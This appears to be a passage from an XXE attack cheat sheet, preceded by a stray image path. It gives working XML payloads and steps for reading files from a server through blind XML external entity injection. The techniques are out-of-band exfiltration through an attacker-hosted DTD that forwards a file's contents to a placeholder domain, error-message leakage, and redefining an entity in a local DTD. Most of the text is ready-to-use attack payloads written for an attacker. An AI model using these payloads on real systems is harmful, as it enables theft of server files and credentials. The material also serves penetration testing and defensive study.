	First, DTD is a text file that store XML attributes and elements used by an application.
	This exfiltration has two phases:
	
	1. You will have to host the DTD file on your website and it should be accessible for external use. This file should contain the following payload:
		
		```xml
		<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'YOURDOMAIN/?log=%file;'>"> 
		%eval;  
		%exfil;
		```
	
	
	2. Then exploit as you will do an classical exfiltration but you should specify the DTD file as follow : 

		```xml
		<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "DTD_URL"> %xxe;]>
		```
	
	
	3. Now you should tcpdump or go to your website logs to view the file you want to retrieve.
	
- Retrieve data via error messages

	This attack has the same action than the external DTD we saw previously. You just need to replace the step 1 payload with the following one:
	
	```xml
	<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
	<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">  
	%eval;  
	%exfil;
	```
	
	This will throw an error containing the file you specify
	
- Retrieve data by repurposing a local DTD

	For this one you need to find a local DTD on the system. Once you get it you can simply redeclare a function and trigger for example the error based exfiltration. In this example we suppose that the local file is  `DTD_LOCAL_FILE` and the entity inside is called `PWNME`. The following payload is to include on the XML post data :
	
	```xml
	<!DOCTYPE message [
	<!ENTITY % local_dtd SYSTEM "file://DTD_LOCAL_FILE">
	<!ENTITY % PWNME '
	<!ENTITY &#x25; file SYSTEM "file://FILE_PATH_TO_RETRIEVE">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
	'>
	%local_dtd;
	]>
	```
